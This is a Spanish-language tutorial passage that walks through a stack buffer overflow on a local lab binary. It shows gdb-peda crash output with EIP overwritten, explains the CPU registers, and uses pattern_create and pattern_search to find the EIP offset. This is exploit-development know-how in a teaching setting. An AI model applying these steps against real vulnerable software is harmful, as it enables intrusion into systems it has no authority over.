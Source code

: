 ```bash
gdb-peda$ run $(python -c "print 'A'*100")
Starting program: /home/noroot/buffer_overflow/buffer $(python -c "print 'A'*100")

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xbffff02c ('A' <repeats 100 times>)
EBX: 0xb7fc0000 --> 0x1acda8
ECX: 0xbffff370 --> 0x44580041 ('A')
EDX: 0xbffff08f --> 0x41 ('A')
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff074 ('A' <repeats 28 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff074 ('A' <repeats 28 times>)
0004| 0xbffff078 ('A' <repeats 24 times>)
0008| 0xbffff07c ('A' <repeats 20 times>)
0012| 0xbffff080 ('A' <repeats 16 times>)
0016| 0xbffff084 ('A' <repeats 12 times>)
0020| 0xbffff088 ("AAAAAAAA")
0024| 0xbffff08c ("AAAA")
0028| 0xbffff090 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```


### Registros
La definición mas simple de un registro es entenderlo como sifuese una variable. Se trata de una región de memoria en la que podemos almacenar y leer datos. La diferencia con las variables que nosotros definimos es que los registro sirven para un propósito en concreto y son limitados.

ESP : Es un puntero al final de la pila.
EIP  : Contiene la dirección actual de ejecución del programa.
EBP : Según el compilador usado, EBP puede ser usado como registro de caracter general o como puntero al marco de la pila.

Generando una cadena de 100 bytes encontrar en que dirección se encuentra EIP
```bash
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Buscanco el **EIP**
A traves de la utilida pattern_search de gdb le indicamos la dirección que estamos buscando.
```bash
gdb-peda$ pattern_search 0x41413341
Registers contain pattern buffer:
EBP+0 found at offset: 64
EIP+0 found at offset: 68
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~100
[ESP] --> offset 72 - size ~28
Pattern buffer found at:
0xbffff02c : offset    0 - size  100 ($sp + -0x48 [-18 dwords])
0xbffff30d : offset    0 - size  100 ($sp + 0x299 [166 dwords])
References to pattern buffer found at:
0xbffff014 : 0xbffff02c ($sp + -0x60 [-24 dwords])
```